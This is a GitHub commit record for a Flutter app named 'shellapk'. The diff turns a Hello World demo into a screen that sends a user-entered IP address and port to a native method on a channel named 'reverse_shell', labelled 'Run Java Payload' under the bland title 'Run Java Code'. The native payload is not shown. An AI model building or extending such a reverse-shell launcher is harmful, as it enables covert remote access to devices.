

Before and after one commit to swatiai11414/shellapk, a Flutter app: the screen it shows after launch, on a phone screen of 412 x 824 dp. Shown: the top 789 px of the screen. Run offline on Flutter 3.47's test engine with Material 3 defaults, Android fonts, the phone set to English and light mode, and no system bars.

Commit message:
Update main.dart

```diff
--- a/lib/main.dart
+++ b/lib/main.dart
@@ -1,41 +1,80 @@
 import 'package:flutter/material.dart';
+import 'package:flutter/services.dart';
 
-void main() => runApp(MyApp());
+void main() {
+  runApp(MyApp());
+}
 
 class MyApp extends StatelessWidget {
-  const MyApp({super.key});
-  // This widget is the root of your application.
   @override
   Widget build(BuildContext context) {
     return MaterialApp(
-      // Application name
-      title: 'Flutter Hello World',
-      // Application theme data, you can set the colors for the application as
-      // you want
+      title: 'Run Java Code',
       theme: ThemeData(
-        // useMaterial3: false,
         primarySwatch: Colors.blue,
       ),
-      // A widget which will be started on application startup
-      home: MyHomePage(title: 'Flutter Demo Home Page'),
+      home: MyHomePage(),
     );
   }
 }
 
-class MyHomePage extends StatelessWidget {
-  final String title;
-  const MyHomePage({super.key, required this.title});
+class MyHomePage extends StatefulWidget {
+  @override
+  _MyHomePageState createState() => _MyHomePageState();
+}
+
+class _MyHomePageState extends State<MyHomePage> {
+  static const platform = MethodChannel('com.example.java_in_flutter/reverse_shell');
+
+  TextEditingController ipController = TextEditingController();
+  TextEditingController portController = TextEditingController();
+  String result = '';
+
+  Future<void> runJavaPayload(String ip, int port) async {
+    try {
+      final String res = await platform.invokeMethod('runJavaPayload', {'ip': ip, 'port': port});
+      setState(() {
+        result = res;
+      });
+    } on PlatformException catch (e) {
+      setState(() {
+        result = "Failed to run Java Payload: '${e.message}'.";
+      });
+    }
+  }
 
   @override
   Widget build(BuildContext context) {
     return Scaffold(
       appBar: AppBar(
-        // The title text which will be shown on the action bar
-        title: Text(title),
+        title: Text("Run Java Code in Flutter"),
       ),
-      body: Center(
-        child: Text(
-          'Hello, World!',
+      body: Padding(
+        padding: const EdgeInsets.all(16.0),
+        child: Column(
+          mainAxisAlignment: MainAxisAlignment.center,
+          children: <Widget>[
+            TextField(
+              controller: ipController,
+              decoration: InputDecoration(hintText: 'Enter IP Address'),
+            ),
+            TextField(
+              controller: portController,
+              decoration: InputDecoration(hintText: 'Enter Port'),
+              keyboardType: TextInputType.number,
+            ),
+            SizedBox(height: 20),
+            ElevatedButton(
+              onPressed: () {
+                String ip = ipController.text;
+                int port = int.parse(portController.text);
+                runJavaPayload(ip, port);
+              },
+              child: Text('Run Java Payload'),
+            ),
+            SizedBox(height: 20),
+            Text(result),
+          ],
         ),
       ),
     );
```
